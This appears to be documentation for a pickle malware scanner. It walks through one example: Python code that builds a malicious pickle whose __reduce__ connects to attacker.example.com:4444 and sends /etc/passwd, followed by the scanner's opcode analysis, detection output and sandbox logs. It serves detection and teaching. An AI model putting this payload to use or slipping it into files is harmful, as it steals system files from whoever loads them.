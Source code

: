## Example 2: Data Exfiltration Payload

### Description
This example shows a malicious pickle that attempts to exfiltrate sensitive data when unpickled.

### Malicious Pickle Code
```python
import pickle
import socket

class DataExfiltration:
    def __reduce__(self):
        return (self._exfiltrate, ())
    
    def _exfiltrate(self):
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect(("attacker.example.com", 4444))
        s.send(open("/etc/passwd", "rb").read())
        s.close()
        return True

# Create the malicious pickle
with open('data_exfiltration.pkl', 'wb') as f:
    pickle.dump(DataExfiltration(), f)
```

### Visual Analysis
**Data Exfiltration Pickle Analysis:**
- **Opcode Pattern:** Complex GLOBAL → BUILD → REDUCE chain
- **Suspicious Modules:** `socket.socket`, file access operations
- **Entropy Level:** High (multiple operations and network addresses)
- **Structure:** Multi-stage reduction with network and file I/O components

### Detection Results
```
Detection Result: MALICIOUS (Confidence: 98.7%)
Threat Type: Network Access & Data Exfiltration
Explanation: This pickle contains code that attempts to establish network connections and access sensitive files
Key indicators: GLOBAL opcode referencing socket.socket, REDUCE opcode, file access operations
Scan Time: 0.031ms
```

### Behavioral Analysis
When executed in a sandbox environment, this pickle attempts to:
1. Open a network connection to attacker.example.com:4444
2. Read the /etc/passwd file
3. Send the file contents over the network

```
[SANDBOX] File access detected: /etc/passwd
[SANDBOX] Network connection attempt: attacker.example.com:4444
[SANDBOX] Malicious behavior confirmed: Data exfiltration
```
